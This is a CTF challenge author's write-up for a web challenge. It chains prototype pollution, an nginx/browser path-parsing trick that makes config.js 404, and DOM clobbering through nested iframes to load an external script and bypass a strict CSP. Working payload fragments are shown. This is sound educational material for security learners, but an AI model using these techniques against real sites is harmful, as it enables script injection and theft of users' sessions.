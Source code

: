 ## Solution

### TL;DR
1. Use `category` to prototype pollution that markdown.js library: write arbitrary HTML
2. Use `/whatever/..%2f` to make `config.js` 404
3. DOM Clobbering: create a nyanCat plugin yourself, load arbitrary js
4. XSS!

### Detailed Solution

In short, this is a website that can send writeup, in which we can set for each topic: category, name, writeup content, and the writeup part uses [markdown.js](https://github.com/evilstreak/markdown- js) of this library render.

The first problem you will find is that although the front end limits the value of the `category` part, the back end does not verify it and can write any value. What's wrong with that? `app.js:65` has this one-liner:
````javascript
WriteUps[writeup.category][writeup.challenge] = writeup.content;
````
Then if we set the `category` of a question to `__proto__`, then prototype pollution can be carried out smoothly.

After knowing this, you should be able to find out very quickly: once the prototype of `Object` is successfully polluted, each element generated by markdown render will be added with the attribute of `[challenge]=[content]`, and `challenge` (that is, the attribute name) part is not escaped by HTML, and can be written in any HTML.

However, due to strict CSP restrictions, we cannot currently do XSS
````
Content-Security-Policy:
default-src 'none'; base-uri 'none'; img-src 'self'; style-src 'self'; connect-src 'self'; script-src 'strict-dynamic' 'nonce-[hex]'
````

What is worth mentioning here is the meaning of `script-src 'strict-dynamic' 'nonce-{hex}'`:
- nonce-{hex} restricts the loading of only JavaScript with script elements with a specific nonce.
- 'strict-dynamic' can refer to [CSP Reference](https://content-security-policy.com/strict-dynamic/); in this scenario, it will allow script elements with nonce to be inserted into any script element and execute its js.

And the `loadPlugin` function in `app.js` in this question just meets this condition and can load script
````javascript
function loadPlugin(pluginName) {
    if (!(pluginName in CONFIG.plugins)) return;
    let script = document.createElement('script');
    script.src = CONFIG.plugins[pluginName];
    document.body.appendChild(script);
}
````
But as we can see, it passes in `pluginName` and reads the js path from `CONFIG.plugins[pluginName]`. Therefore, if you want to load your own js arbitrarily, you must first control `CONFIG`; and `CONFIG` is loaded from `config.js`:

````javascript
const CONFIG = {
    productName: "CTF Note",
    version: "v0.0.87",
    plugins: {
        nyanCat: '/plugins/nyan.js',
        xssSimulator: '/plugins/xss.js'
    }
};
````

At this point we can go back and see what writing arbitrary HTML can help us do!

There is a technique called DOM clobbering (for various techniques, please refer to [PortSwigger's article](https://portswigger.net/research/dom-clobbering-strikes-back)), which is a way to hijack the values ​​in js by manipulating the DOM ( Basically a global variable).

Obviously, what we want to control is `CONFIG`, but the problem is that direct DOM clobbering can't cover the existing variables, what should I do? Simple, just get it out of the way!

In fact, it should be found that the writing method of `config.js` in HTML is a bit different from other js and css. Everyone else is an absolute path under `/static`, but `config.js` is a relative path. .
```html
<script nonce="nonce" src="config.js"></script>
````

We can use this to make config.js 404, how to do it? Since nginx and browsers have different ways of parsing paths, a path that can be read by nginx but not by browsers can be constructed:
````
http://ctf-note.splitline.tw:9527/meow/..%2f
````
- For nginx, it will return to the previous directory because of `..%2f`, and successfully display the content of /.
- For browsers, `..%2f` is just a file name in the `meow` directory, so it will read `/meow/config.js` as a relative path.

As a result, config.js is 404 not found, and `CONFIG` disappears smoothly.

Next, back to DOM clobbering, we can use the iframe + srcdoc method to construct `CONFIG.plugins.nyanCat`:

```html
<iframe name=CONFIG srcdoc="
    <iframe id=CONFIG name=plugins
        srcdoc='<a id=nyanCat href=http://url/to/your.js>test</a>'>
"></iframe>
````

So far, we have been able to successfully insert our own js and achieve full XSS! The actual attack script can refer to `solution.py`.


## Postscript

Personally, I think this question is my favorite among the questions I asked in this CTF. When I first thought of combining prototype pollution and DOM clobbering, I came up with this question. In fact, it took a lot of time to design the question scene. . Having said that, this is also my first official XSS question. It's really tiring. The front-end, back-end and xss bot all have to be carefully designed. If it is a pure back-end question, the front-end can be written casually. XD

I feel that many people are missing the last step. They are stuck and don’t know how to cover config.js. In the end, no one has solved it. It’s still a pity. I originally hoped that one or two teams could solve it. XD
